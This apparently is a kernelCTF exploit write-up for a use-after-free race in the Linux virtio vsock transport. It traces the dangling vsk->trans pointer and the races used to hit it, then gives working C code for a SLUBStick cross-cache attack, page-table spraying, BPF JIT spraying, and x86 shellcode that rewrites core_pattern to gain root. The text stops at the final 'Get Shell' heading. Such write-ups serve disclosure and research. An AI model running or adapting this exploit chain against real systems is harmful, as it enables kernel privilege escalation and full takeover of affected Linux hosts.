

# Vulnerability
This vulnerability occurs because the vsk->trans pointer in virtio_transport_destruct() is not initialized to NULL after being freed, resulting in a dangling pointer.
```cpp
void virtio_transport_destruct(struct vsock_sock *vsk)
{
        struct virtio_vsock_sock *vvs = vsk->trans;    // vsk->trans becomes a dangling pointer

        kfree(vvs);
}
```
This dangling pointer vvs is later dereferenced in virtio_transport_space_update(), leading to a Use-After-Free Write.
```cpp
static bool virtio_transport_space_update(struct sock *sk,
                                          struct sk_buff *skb)
{
        struct virtio_vsock_hdr *hdr = virtio_vsock_hdr(skb);
        struct vsock_sock *vsk = vsock_sk(sk);
        struct virtio_vsock_sock *vvs = vsk->trans;
        bool space_available;

        /* Listener sockets are not associated with any transport, so we are
         * not able to take the state to see if there is space available in the
         * remote peer, but since they are only used to receive requests, we
         * can assume that there is always space available in the other peer.
         */
        if (!vvs)
                return true;

        /* buf_alloc and fwd_cnt is always included in the hdr */
        spin_lock_bh(&vvs->tx_lock);
        vvs->peer_buf_alloc = le32_to_cpu(hdr->buf_alloc);    // UAF Write
        vvs->peer_fwd_cnt = le32_to_cpu(hdr->fwd_cnt);
        space_available = virtio_transport_has_space(vsk);
        spin_unlock_bh(&vvs->tx_lock);
        return space_available;
}
```

# Race Condition Scenario
This vulnerability is a race condition that must be triggered by precisely controlling the `vsock_loopback_work()` worker used for loopback communication. The full scenario is as follows and can be divided into three main flows.
```text
                     cpu0                                                      cpu1
    
                                                               socket(A)    // [1.1]
                                                               
                                                               bind(A, {cid: VMADDR_CID_LOCAL, port: 1024})    // [1.2]
                                                                 vsock_bind()
                                                               
                                                               listen(A)
                                                                 vsock_listen()
  socket(B)    // [2.1]

  connect(B, {cid: VMADDR_CID_LOCAL, port: 1024})  
    vsock_connect()
      lock_sock(sk);
      vsock_assign_transport()
        virtio_transport_do_socket_init()
          vvs = kzalloc(sizeof(*vvs), GFP_KERNEL);    // [2.2]
          vsk->trans = vvs;
      vsock_auto_bind()
        __vsock_bind()
          __vsock_bind_connectible()
            __vsock_insert_bound()
              list_add(&vsk->bound_table, list);
      virtio_transport_connect()
        virtio_transport_connect()
          virtio_transport_send_pkt_info()
            vsock_loopback_send_pkt(VIRTIO_VSOCK_OP_REQUEST)
              queue_work(vsock_loopback_work)    // [2.3]
      sk->sk_state = TCP_SYN_SENT;    // [2.4]
      release_sock(sk);
                                                               vsock_loopback_work()
                                                                 virtio_transport_recv_pkt(VIRTIO_VSOCK_OP_REQUEST)
                                                                   sk = vsock_find_bound_socket(&dst);
                                                                   virtio_transport_recv_listen(sk, skb)
                                                                     child = vsock_create_connected(sk);    // [3.1]
                                                                     vsock_assign_transport()
                                                                       vvs = kzalloc(sizeof(*vvs), GFP_KERNEL);    // [3.2]
                                                                     vsock_insert_connected(vchild);
                                                                       list_add(&vsk->connected_table, list);
                                                                     virtio_transport_send_response(vchild, skb);
                                                                       virtio_transport_send_pkt_info()
                                                                         vsock_loopback_send_pkt(VIRTIO_VSOCK_OP_RESPONSE)    // [3.3]
                                                                           queue_work(vsock_loopback_work)

                                                               vsock_loopback_work()
                                                                 virtio_transport_recv_pkt(VIRTIO_VSOCK_OP_RESPONSE)
                                                                   sk = vsock_find_bound_socket(&dst);
                                                                   lock_sock(sk);
                                                                   case TCP_SYN_SENT:    // [4.1]
                                                                   virtio_transport_recv_connecting()
                                                                     sk->sk_state = TCP_ESTABLISHED;    // [4.2]
                                                                   release_sock(sk);

                                                               kill(connect(B));    // [5]
      lock_sock(sk);
      if (signal_pending(current)) {    // [6.1]
      sk->sk_state = sk->sk_state == TCP_ESTABLISHED ? TCP_CLOSING : TCP_CLOSE;    // [6.2]
      sock->state = SS_UNCONNECTED;    // [6.3]
      release_sock(sk);

  connect(B, {cid: VMADDR_CID_HYPERVISOR, port: 1024})    // [7.1]
    vsock_connect(B)
      lock_sock(sk);
      vsock_assign_transport()
        virtio_transport_release()
          virtio_transport_close()
            if (!(sk->sk_state == TCP_ESTABLISHED || sk->sk_state == TCP_CLOSING))    // [7.2]
            virtio_transport_shutdown()
              virtio_transport_send_pkt_info()
                vsock_loopback_send_pkt(VIRTIO_VSOCK_OP_SHUTDOWN)
                  queue_work(vsock_loopback_work)    // [7.3]
        vsock_deassign_transport()
          virtio_transport_destruct()
            kfree(vvs);    // [7.4]
          vsk->transport = NULL;    // [7.5]
        return -ESOCKTNOSUPPORT;    // [7.6]
      release_sock(sk);
                                                               vsock_loopback_work()
                                                                 virtio_transport_recv_pkt(VIRTIO_VSOCK_OP_SHUTDOWN)
                                                                   sk = vsock_find_connected_socket(&src, &dst);
                                                                   virtio_transport_recv_connected()
                                                                     virtio_transport_reset()
                                                                       virtio_transport_send_pkt_info()
                                                                         vsock_loopback_send_pkt(VIRTIO_VSOCK_OP_RST)
                                                                           queue_work(vsock_loopback_work)    // [8]
  timerfd_settime(TFD_TIMER_CANCEL_ON_SET)    // [11]

  listen(B)
    vsock_listen()
      lock_sock(sk);    // [10.1]
      if (sock->state != SS_UNCONNECTED)    // [10.2]
      sk->sk_state = TCP_LISTEN;    // [10.3]
      release_sock(sk);
                                                               vsock_loopback_work()
                                                                 virtio_transport_recv_pkt(VIRTIO_VSOCK_OP_RST)
                                                                   sk = vsock_find_bound_socket(&dst);
                                                                   lock_sock(sk);    // [9.1]
                                                                   if (sock_flag(sk, SOCK_DONE))    // [9.2]
                                                                   virtio_transport_space_update()
                                                                     vvs->peer_buf_alloc = le32_to_cpu(hdr->buf_alloc);    // [9.3]
                                                                   case TCP_LISTEN:
                                                                   virtio_transport_recv_listen()
                                                                     virtio_transport_reset_no_sock()
                                                                       if (le16_to_cpu(hdr->op) == VIRTIO_VSOCK_OP_RST)
                                                                       return 0;    // [9.4]
```

Yet another well visualized diagram:


## Flow 1: Triggering Use-After-Free Write
If the `SOCK_DONE` flag is set on vsock, it will exit through error handling before calling virtio_transport_space_update(), which accesses vvs. [0.1]
```cpp
void virtio_transport_recv_pkt(struct virtio_transport *t,
                               struct sk_buff *skb)
{
        ...

        /* Check if sk has been closed before lock_sock */
        if (sock_flag(sk, SOCK_DONE)) {    // [0.1]
                (void)virtio_transport_reset_no_sock(t, skb);
                release_sock(sk);
                sock_put(sk);
                goto free_pkt;
        }

        space_available = virtio_transport_space_update(sk, skb);
```
Therefore, in flow 1, the goal is to use the race condition to ensure that the `SOCK_DONE` flag is not set.
1. Create vsock A[1.1] and B[2.1] to initiate loopback communication. At this point, set the cid to `VMADDR_CID_LOCAL` and use a port value higher than `#define LAST_RESERVED_PORT 1023`. [1.2]
2. When connect() is called on vsock B, the UAF target object vvs is allocated and stored in vsk->trans. [2.2] Next, the `VIRTIO_VSOCK_OP_REQUEST` command is passed to the vsock_loopback_work() worker[2.3], and the sk->sk_state of vsock B is set to `TCP_SYN_SENT`. [2.4]
3. The vsock_loopback_work() worker executes for the `VIRTIO_VSOCK_OP_REQUEST` command, allocates a child vsock[3.1], and then passes the `VIRTIO_VSOCK_OP_RESPONSE` command to the worker. [3.3]
4. The worker for the `VIRTIO_VSOCK_OP_RESPONSE` command executes, and since the sk->sk_state of vsock A, registered in the bound table, is currently `TCP_SYN_SENT`[4.1], it is reset to `TCP_ESTABLISHED`. [4.2]
5. A signal is sent to the currently pending connect(B) task. [5]
6. The connect(B) task, upon receiving the signal[6.1], changes the sk->sk_state of vsock B to `TCP_CLOSING` since it is currently in the `TCP_ESTABLISHED` state. [6.2]
7. Call connect(B) once more, this time changing the cid to `VMADDR_CID_HYPERVISOR`. [7.1] Since the cid has changed, vsock_connect() will terminate the current connection, free all associated objects, and update the connection to use the new cid. In virtio_transport_close(), the `SOCK_DONE` flag is set only if the vsock's sk->sk_state is not `TCP_ESTABLISHED | TCP_CLOSING`. [7.2] However, because the state was set to `TCP_CLOSING` in step 6[6.2], the `SOCK_DONE` flag does not get set. Without this series of race conditions, the sk->sk_state would have transitioned to `TCP_CLOSE`, causing the `SOCK_DONE` flag to be set, which would prevent triggering the UAF.
8. After passing the `VIRTIO_VSOCK_OP_SHUTDOWN` command to the worker[7.3], vsock_deassign_transport() is called to free the UAF target object vvs. At this point, vsk->trans is not initialized to NULL, resulting in a dangling pointer. [7.4]
9. In vsock_assign_transport(), if the vsock uses the SOCK_SEQPACKET protocol[0.2] but the transport corresponding to the provided cid(`VMADDR_CID_HYPERVISOR`) does not have a `.seqpacket_allow` operation[0.3], `return -ESOCKTNOSUPPORT;` is executed. [7.6] In the kernelCTF environment, the transport for `VMADDR_CID_HYPERVISOR` is `hvs_transport`, which lacks the `.seqpacket_allow` operation, causing an error return. As a result, the `new_transport->init(vsk, psk)` call, which would allocate a new transport for vsk->trans, is not executed. [0.4] This allows the dangling pointer to persist.
```cpp
static struct vsock_transport hvs_transport = {
        .module                   = THIS_MODULE,

        .get_local_cid            = hvs_get_local_cid,

        .init                     = hvs_sock_init,
        .destruct                 = hvs_destruct,
        .release                  = hvs_release,
        .connect                  = hvs_connect,
        .shutdown                 = hvs_shutdown,
        ...


int vsock_assign_transport(struct vsock_sock *vsk, struct vsock_sock *psk)
{
        ...

        if (sk->sk_type == SOCK_SEQPACKET) {    // [0.2]
                if (!new_transport->seqpacket_allow ||    // [0.3]
                    !new_transport->seqpacket_allow(remote_cid)) {
                        module_put(new_transport->module);
                        return -ESOCKTNOSUPPORT;
                }
        }

        ret = new_transport->init(vsk, psk);    // [0.4] When ->init() is called, vsk->trans gets overwritten
        if (ret) {
                module_put(new_transport->module);
                return ret;
        }
```
10. The worker for the `VIRTIO_VSOCK_OP_SHUTDOWN` command executes, and the `VIRTIO_VSOCK_OP_RST` command is passed to the worker. [8]
11. Finally, the worker for the `VIRTIO_VSOCK_OP_RST` command executes and checks whether the `SOCK_DONE` flag is set on vsock B. [9.2] Through the earlier race condition, we ensured that the `SOCK_DONE` flag was not set. As a result, the flag check is bypassed, allowing virtio_transport_space_update() to be called. This dereferences the freed vvs, triggering a UAF Write. [9.3]

## Flow 2: Postponing null-ptr-deref
Immediately after triggering the UAF in step by executing the race condition scenario in Flow 1[9.3], an unexpected null-ptr-deref occurs in the following call stack:
```
virtio_transport_recv_pkt()
  => virtio_transport_recv_disconnecting()
    => virtio_transport_do_close()
      => vsock_stream_has_data()
```
This occurs because when connect(B) is called twice, vsock_deassign_transport() initializes vsk->transport to NULL during the vvs deallocation. [7.5] After the UAF is triggered, vsock_stream_has_data() dereferences the NULL vsk->transport, leading to a null-ptr-deref. [0.5]
```cpp
static void vsock_deassign_transport(struct vsock_sock *vsk)
{
        if (!vsk->transport)
                return;

        vsk->transport->destruct(vsk);
        module_put(vsk->transport->module);
        vsk->transport = NULL;
}


s64 vsock_stream_has_data(struct vsock_sock *vsk)
{
        return vsk->transport->stream_has_data(vsk);    // [0.5]
}
EXPORT_SYMBOL_GPL(vsock_stream_has_data);
```
Since the kernel in kernelCTF has the `CONFIG_PANIC_ON_OOPS` option enabled, a null-ptr-deref will immediately trigger a kernel panic, preventing further exploitation. Therefore, in Flow 2, the goal is to bypass this null-ptr-deref using a separate race condition.
1. Just before the `VIRTIO_VSOCK_OP_RST` worker that triggers the UAF is executed, a listen() call is made on vsock B. Since the sock->state was previously set to `SS_UNCONNECTED`[6.3], the flag check fortunately passes. [10.2]
2. The sk->sk_state of vsock B is changed to `TCP_LISTEN`. [10.3]
3. Now, when the `VIRTIO_VSOCK_OP_RST` worker executes and the UAF Write is triggered, the race condition causes sk->sk_state to be changed to `TCP_LISTEN`. As a result, virtio_transport_recv_listen() is called[0.6] instead of virtio_transport_recv_disconnecting(). [0.7]
```cpp
void virtio_transport_recv_pkt(struct virtio_transport *t,
                               struct sk_buff *skb)
{
        ...

        switch (sk->sk_state) {
        case TCP_LISTEN:
                virtio_transport_recv_listen(sk, skb, t);    // [0.6]
                kfree_skb(skb);
                break;
        case TCP_SYN_SENT:
                virtio_transport_recv_connecting(sk, skb);
                kfree_skb(skb);
                break;
        case TCP_ESTABLISHED:
                virtio_transport_recv_connected(sk, skb);
                break;
        case TCP_CLOSING:
                virtio_transport_recv_disconnecting(sk, skb);    // [0.7] When this is called, a null-ptr-deref occurs
                kfree_skb(skb);
                break;
        default:
                (void)virtio_transport_reset_no_sock(t, skb);
                kfree_skb(skb);
                break;
        }
```
4. virtio_transport_recv_listen() does nothing significant and simply returns 0. [9.4] However, even if the race condition is successful, the null-ptr-deref issue is not completely resolved. In Flow 1, virtio_transport_close() schedules a delayed worker to execute virtio_transport_close_timeout() after 8 seconds. [0.8] When this worker function runs, the null-ptr-deref occurs. Ultimately, the null-ptr-deref is delayed by 8 seconds. Nevertheless, 8 seconds is sufficient to complete the exploit and get the flag.
```cpp
#define VSOCK_CLOSE_TIMEOUT (8 * HZ)

/* User context, vsk->sk is locked */
static bool virtio_transport_close(struct vsock_sock *vsk)
{
        ...

        sock_hold(sk);
        INIT_DELAYED_WORK(&vsk->close_work,
                          virtio_transport_close_timeout);
        vsk->close_work_scheduled = true;
        schedule_delayed_work(&vsk->close_work, VSOCK_CLOSE_TIMEOUT);    // [0.8] A null-ptr-deref occurs after 8 seconds.
        return false;
}
```

## Flow 3: Expanding the race window - timerfd
To exploit this vulnerability, cross-cache allocation is essential. However, the execution time between the vvs deallocation[7.4] and the UAF Write[9.3] is approximately 6μs in a local environment, making it nearly impossible to perform cross-cache allocation within this narrow window.

Since the kernel in kernelCTF has `CONFIG_PREEMPT` disabled, the race window was extended using the timerfd technique. This technique is based on the [p0 blog](https://googleprojectzero.blogspot.com/2022/03/racing-against-clock-hitting-tiny.html) and was implemented using the code from the [CVE-2023-4622 Write-Up](https://github.com/google/security-research/blob/master/pocs/linux/kernelctf/CVE-2023-4622_lts/docs/exploit.md).

1. do_epoll_enqueue() is used to set up the timerfd waitqueue.
2. In Flow 2, before calling listen(B), `timerfd_settime(TFD_TIMER_CANCEL_ON_SET)` is called. [11] This ensures that the timerfd expires after vsock_listen() invokes `lock_sock(sk)`. [10.1]
3. As a result, listen(B) holds the lock_sock while control is switched to the hardware interrupt handler, causing it to process the pending timerfd waitqueue entries for an extended period.
4. The worker triggering the UAF executes and similarly calls `lock_sock(sk)` for vsock B. [9.1] Meanwhile, the listen(B) call remains blocked, waiting for the interrupt handler's work to complete and the lock to be released.
5. The gap between the free and the UAF, which was initially just 6μs, is extended to 40000μs. This significant increase allows enough time to successfully perform cross-cache allocation.

# Exploit Tech
## 0. Intro
Summarizing the primitives obtained so far, the vulnerable object is `struct virtio_vsock_sock`.
```cpp
/* Per-socket state (accessed via vsk->trans) */
struct virtio_vsock_sock {
    struct vsock_sock *vsk;
    /* Protected by lock_sock(sk_vsock(trans->vsk)) */
    u32 buf_size;
    u32 buf_size_min;
    u32 buf_size_max;
    spinlock_t tx_lock;
    spinlock_t rx_lock;
    /* Protected by tx_lock */
    u32 tx_cnt;
    u32 buf_alloc;
    u32 peer_fwd_cnt;
    u32 peer_buf_alloc;
    /* Protected by rx_lock */
    u32 fwd_cnt;
    u32 rx_bytes;
    struct list_head rx_queue;
};
```
---

### **Primitives**  
1. The `peer_buf_alloc` field of the UAF-affected object (`kmalloc-96`) can be arbitrarily set. (4 bytes AAW in kmalloc-96 SLUB)

### **Constraints to Address Before Exploitation**  
The following exploitation technique addresses these constraints sequentially:  

1. Constructing an exploit using only the internal logic that modifies the `peer_buf_alloc` of `struct virtio_vsock_sock` is extremely difficult. As a result, a **cross-cache attack** is employed, which must be performed within **40000μs**.  

2. During the **cross-cache attack**, the `vvs` object created in step `[3.2]` cannot be freed. Since the UAF-affected object and the `[3.2]` object are created almost simultaneously, this must be bypassed to execute the cross-cache attack.  

3. The vulnerability occurs within a **worker thread**, and CPU affinity cannot be arbitrarily modified. The worker thread follows the CPU of the process that requested the work, a behavior observed empirically.  

4. If the `rx_lock` and `tx_lock` elements of the UAF-affected object `vvs` are not set to `NULL`, a **kernel panic** occurs when entering `spin_lock()`. Therefore, it is necessary to identify a **cross-cache victim object** in which `rx_lock` and `tx_lock` are set to `NULL`.  

5. After triggering the vulnerability, the system crashes within **8 seconds**, and the success rate of the race condition is extremely low. Consequently, the vulnerability can only be triggered **once** during the process. It is essential to find a method to exploit this by **arbitrarily writing 4 bytes** without relying on an address leak.  

## 1. Cross-Cache Attack w/ SLUBStick
The **cross-cache attack** is performed in the standard manner but modified to address **constraint 2** described earlier. To bypass this limitation, it is necessary to accurately determine the number of objects present in the SLUB allocator. This can be achieved using the [SLUBStick](https://github.com/IAIK/SLUBStick) technique.  

### **SLUBStick Overview**  
The SLUBStick technique leverages the fact that the time taken to allocate an object in the SLUB allocator differs depending on the allocation path. Specifically, there is a noticeable speed difference when allocating from an **Active page** versus requesting objects after exhausting all SLUB pages and falling back to the **buddy allocator**. This timing difference can be used to determine the number of objects in the Active page.  

### **Exploitation Process**  
The exploit uses **vvs objects** and **keyring objects** to manipulate the SLUB allocator. The steps are as follows:  

1. Generate a large number of **vvs objects** to completely eliminate all **Partial SLABs**.  
2. Create **keyring objects** one at a time to identify the point where an allocation speed difference occurs. The point of speed difference indicates that a new Active page has been allocated.  
3. From the point where the speed difference is observed, count the number of allocated objects to determine the `inuse` value.  

In the **kmalloc-96** cache, the value of **OBJS_PER_SLAB** is **0x2a**.  

```cpp
int *fds[0x28];
for(int i=0; i<0x28; i++) 
    fds[i] = generate_spray_vvs_fd(OBJS_PER_SLAB);
int *checkfd = generate_spray_vvs_fd(OBJS_PER_SLAB);
int *remainfd = generate_spray_vvs_fd(OBJS_PER_SLAB);
for(int i=0; i<0x20; i++) 
    spray_vvs(fds[i], OBJS_PER_SLAB);

uint64_t times[OBJS_PER_SLAB];
uint64_t t0, t1;
snprintf(desc, sizeof(desc) - 1, "-%d", ++vv);
key_serial_t keyv;
for(int i=0; i<OBJS_PER_SLAB; i++)
{
    spray_vvs(&checkfd[i], 1);
    sched_yield();
    t0 = rdtsc_begin();
    keyv = create_keyring(KEYRING_TYPE_USER, desc, &payload, KEYRING_KMALLOC_96, KEY_SPEC_PROCESS_KEYRING);
    t1 = rdtsc_end();
    times[i] = t1-t0;
}

int inuse = -1, currv = 0;
for(int i=OBJS_PER_SLAB-1; i>=0; i--)
    if(times[i] > 6000)
    {
        inuse = OBJS_PER_SLAB - i;
        break;
    }

printf("inuse: %d\n", inuse);
usleep(10000);
```

With the exact number of objects determined, it is now possible to ensure that the **UAF object** (allocated from `[2.2]`) and the object that cannot be freed (allocated from `[3.2]`) are allocated on **different SLUB pages**. By filling the SLUB allocator until the `inuse` value reaches **0x29**, the UAF object is forced out of the **per-CPU cache**, while the other object remains in the **Active page**. Subsequently, by freeing a **keyring object** at a specific point, the SLUB containing the UAF object can be placed into the **per-CPU cache** on an arbitrary CPU.  

### **Cross-Cache Attack Execution**  
With the above conditions satisfied, the following steps are performed to execute the **cross-cache attack**:  

1. **Trigger the vulnerability.**  
2. Within **40000μs**, perform the following steps sequentially:  
    1. Clear all kmalloc-96 SLUB pages containing the **UAF object**.  
    2. Clear all previously allocated dummy kmalloc-96 SLUB pages.  
    3. Allocate the **target object** for the cross-cache attack.  

```cpp
if (conn_pid == 0) {
    [...] // Find inuse cnt of SLUB object

    for(int i=inuse; i<OBJS_PER_SLAB-1; i++)
        spray_vvs(&remainfd[i], 1);
    
    // erase allocated keyring
    remove_keyring(keyv);
    spray_vvs(&remainfd[OBJS_PER_SLAB-1], 1);

    // race 1
    write(communicate_pipe[1], "123", 3);

    struct itimerspec it = {};
    int tfd;
    int rand = v;

    FAIL_IF((tfd = timerfd_create(CLOCK_MONOTONIC, 0)) < 0);
    unsigned long tmp;
    it.it_value.tv_sec = 0;
    it.it_value.tv_nsec = rand * NS_PER_JIFFIE;
    FAIL_IF(timerfd_settime(tfd, 0, &it, NULL) < 0);

    printf("socket b connect count: %d\n", rand);
    read(tfd, &tmp, sizeof(tmp));

    if(connect(socket_b, (struct sockaddr *)&connect_addr, sizeof(connect_addr)) < 0)
        perror("connect");
} else {
    // race 2
    read(communicate_pipe[0], comm_buf, 3);

    struct itimerspec it = {};
    int tfd;
    int kill_rand = v;

    FAIL_IF((tfd = timerfd_create(CLOCK_MONOTONIC, 0)) < 0);
    unsigned long tmp;
    it.it_value.tv_sec = 0;
    it.it_value.tv_nsec = kill_rand * NS_PER_JIFFIE;
    FAIL_IF(timerfd_settime(tfd, 0, &it, NULL) < 0);

    read(tfd, &tmp, sizeof(tmp));

    kill(conn_pid, SIGKILL);
    printf("socket b kill count: %d\n", kill_rand);
    wait(NULL); // All dummy obj will be freed because of the kill
}
close(communicate_pipe[0]), close(communicate_pipe[1]);
```

## 2. Find Victim Object for Bypass Kernel Panic \w Pagetable
As previously discussed, the object allocated through **cross-cache attack** must be initialized to **NULL**, with the exception of the `peer_buf_alloc` field, which must contain a non-NULL value. Additionally, the exploit must be performed with a **single 4-byte arbitrary address write (AAW)** without requiring a leak.

To meet these criteria, the **Page Table Entry (PTE)** has been selected as the target. PTEs are inherently **NULL** by default, and when using **mmap**, values are written in 8-byte units with the following structure:  

| **Bit Field** | **Description**                              |  
|---------------|----------------------------------------------|  
| **Bit 0**     | **P (Present):** Indicates page presence (1: present). |  
| **Bit 1**     | **R/W (Read/Write):** Read/write permission.            |  
| **Bit 2**     | **U/S (User/Supervisor):** User access permission.     |  
| **Bit 3**     | **PWT (Page Write-Through):** Write-through status.    |  
| **Bit 4**     | **PCD (Page Cache Disable):** Cache usage status.      |  
| **Bit 5**     | **A (Accessed):** Indicates page access.               |  
| **Bit 6**     | **D (Dirty):** Indicates page modification.            |  
| **Bit 7**     | **PAT (Page Attribute Table):** PAT attribute status.  |  
| **Bit 8**     | **G (Global):** Global page indication.                |  
| **Bit 9-11**  | **Reserved:** Unused.                                  |  
| **Bit 12-51** | **Physical Address:** The physical address.            |  
| **Bit 52-62** | **Available:** Reserved for kernel or software use.    |  
| **Bit 63**    | **NX (No eXecute):** Code execution prevention bit.    |  

### **Exploit Mechanism**  
To exploit the target PTE:  
1. A **page fault** is triggered at the location corresponding to the `peer_buf_alloc` field.  
2. The kernel allocates a PTE specifically for the faulted address.  
3. Using the **UAF write**, the physical address in the PTE can be modified arbitrarily.  

By manipulating the physical address in the PTE, the target page can be redirected to achieve code execution or kernel memory manipulation.  

```cpp
// spray p4d (ready for spray page table)
_pin_to_cpu(MAIN_CPU);
for(int i=0; i < N_PAGESPRAY; i++)
    *(uint64_t *)(page_spray[i]) = (i << 16);
printf("p4d spray fin\n");

sleep(1);

struct itimerspec new = {.it_value.tv_nsec = 1500000};
timerfd_settime(tfd, TFD_TIMER_CANCEL_ON_SET, &new, NULL);

connect_addr.svm_cid = 0;
connect(socket_b, (struct sockaddr *)&connect_addr, sizeof(connect_addr));
listen(socket_b, 0);

// spray pte (only peer_buf_alloc's offset)
for(int i=0; i < N_PAGESPRAY; i++)
    for(int j=MMAP_SIZE/0x2000; j<MMAP_SIZE/0x1000; j += 0x60/8)
        *(uint64_t *)(page_spray[i] + 0x3000 + 0x1000*j) = (i << 16) + j;
printf("pte spray fin\n");

// after execution, worker will overwrite pte
```

## 3. AAW w/ Dirty Pagetable
If a portion of the PTE can be modified as described, it becomes possible to write arbitrary values to specific **physical addresses** from user space. This concept is well explained in [this blog post](https://yanglingxi1993.github.io/dirty_pagetable/dirty_pagetable.html).

However, unlike the method described in the referenced blog, the **`flip` technique** (incrementally adjusting physical addresses to discover the target address) cannot be used here to determine the desired physical address.  

This constraint necessitates a different approach, such as leveraging **BPF JIT Spray** or another large-scale allocation strategy to approximate and control the physical memory location for exploitation.

### **4. Modify `core_pattern` with BPF JIT Spray**  
By leveraging the ability to access arbitrary physical addresses, the next step involves overcoming the constraints of having **no physical address leaks** and only a **4-byte arbitrary write (AAW)** capability. To address these limitations, **BPF JIT Spray** is employed.

BPF JIT Spray works as follows:  
1. It effectively "sprays" large amounts of **executable code** (`r-x` regions) into the physical address space.  
2. By modifying the Page Table Entry (PTE) to point to a sprayed region, the code within that region can be transformed using the **Dirty Pagetable technique**.  

Although the physical address space is not guaranteed to be contiguous (unlike virtual addresses), the BPF JIT-compiled **`r-x` regions** are typically about **0x200000** in size. This property allows for a low-probability estimation of the address where the JIT-sprayed code resides.

1. Perform **BPF JIT Spray** to populate a large portion of the physical memory with executable code.  
2. Modify the PTE of a targeted memory region to redirect it to the sprayed physical address.  
3. Use the **Dirty Pagetable technique** to replace the sprayed region's code with the desired **shellcode**.  
4. Trigger **socket communication** to execute the modified shellcode.

- In a typical scenario, BPF JIT-compiled code resides at a physical address **below `0x100000000`**, whereas user memory is allocated above this boundary.  
- The 4-byte AAW alone cannot directly exploit addresses below `0x100000000`.  
- However, by allocating a significant amount of physical memory and then invoking **`mmap()`**, user memory can occasionally be mapped to physical addresses **below `0x100000000`**. This behavior allows exploitation under specific conditions.

1. Perform **BPF JIT Spray** extensively across the physical address space.  
2. Wait until the **shellcode** in the sprayed memory region is successfully modified.  
3. Trigger the shellcode execution, completing the exploit.  

By combining **BPF JIT Spray**, **Dirty Pagetable**, and strategic allocation of user memory, this method allows the execution of arbitrary code even under strict constraints.  

```cpp
int sc()
{
	int stopfd[2];
	SYSCHK(socketpair(AF_UNIX, SOCK_STREAM, 0, stopfd));
	unsigned int prog_len = 0x900;
	/* In current environment, the max instructions in a program is near 0x900
	And we test 0x900 instructions * 0x50 forks * 0x100 sockets * 4 = 180 MB is enough large to spray and worked reliably
	*/
	struct sock_filter table[] = {
		{.code = BPF_LD + BPF_K, .k = 0xb3909090},
		{.code = BPF_RET + BPF_K, .k = SECCOMP_RET_ALLOW}};

	/* 0xb3909090 is NOPsled shellclode to make exploitation more reliable
90       nop
90       nop
90       nop
b3 b8    mov    bl, 0xb8
*/
	for (int i = 0; i < prog_len; i++)
		filter[i] = table[0];

	filter[prog_len - 1] = table[1];
	int idx = prog_len - 2;

#include "sc.h" // generated shellcode

	struct sock_fprog prog = {
		.len = prog_len,
		.filter = filter,
	};

	char buffer[0x1000];
	for (int k = 0; k < 0x50; k++)
	{
		if (fork() == 0) // use fork to bypass RLIMIT_NOFILE limit.
		{
			int fd[0x100][2];
			close(stopfd[1]);
			for (int i = 0; i < 0x100; i++)
			{
				SYSCHK(socketpair(AF_UNIX, SOCK_DGRAM, 0, fd[i]));
				SYSCHK(setsockopt(fd[i][0], SOL_SOCKET,
								  SO_ATTACH_FILTER, &prog,
								  sizeof(prog)));
			}
			write(stopfd[0], buf, 1);
            
            /*
            // wait for shellcode modified by dirty pagetable
            */
			while(*shared_mutex == 0)
				sleep(1);

            // run modified shellcode
			for (int i = 0; i < 0x100; i++)
			{
				// printf("run %d.%d!\n", k, i);
				if(check_core())
					exit(0);
				ssize_t bytes_written = write(fd[i][1], buffer, sizeof(buffer));
				ssize_t bytes_read = read(fd[i][0], buffer, sizeof(buffer));
			}
			read(stopfd[0], buf, 1);
			// exit(0);
		}
	}
	/* wait for all forks to finish spraying BPF code */
	read(stopfd[1], buf, 0x50);

	return 0;
}
```

The shellcode used at this stage modifies the `core_pattern` configuration to:  

```
"|/proc/%P/fd/666 %P"
```

and shellcodes as follows:
```asm
mov rcx, 0xc0000082
rdmsr 

shl rdx, 32
or rdx, rax
sub rdx, 0x1400080 ; entry_SYSCALL_64
mov r12, rdx

mov rdi, r12
add rdi, 0x29bace0 ; core_pattern

mov rsi, 0x12340000 ; src userland buffer

mov rdx, 0x20 ; len

mov rax, r12
add rax, 0x8e0990 ; copy_from_user
call rax

mov rax, 0x7fff0000
pop r13
pop rbx
leave
ret
```

## 5. Get Shell w/ core_pattern
Finally, a shell can be obtained using the following code:
